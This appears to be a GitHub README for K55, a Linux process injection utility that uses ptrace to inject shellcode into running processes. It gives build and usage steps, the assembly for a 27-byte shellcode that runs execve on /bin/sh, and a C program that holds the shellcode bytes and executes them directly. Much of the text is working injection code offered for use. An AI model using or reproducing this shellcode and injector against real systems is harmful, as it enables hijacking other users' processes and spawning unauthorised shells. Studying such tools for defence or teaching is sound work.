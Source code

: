 ## K55 - Linux x86_64 Process Injection Utility (C++11)

## About K55 
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space.<br/>

## Installation
1. ``git clone https://github.com/josh0xA/K55.git``<br/>
2. ``cd K55``<br/>
3. ``chmod +x build-install.sh``<br/>
4. ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``./K55 k55_test_process``<br/>

## Crafting The Shell Payload

### Assembly of The Payload
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
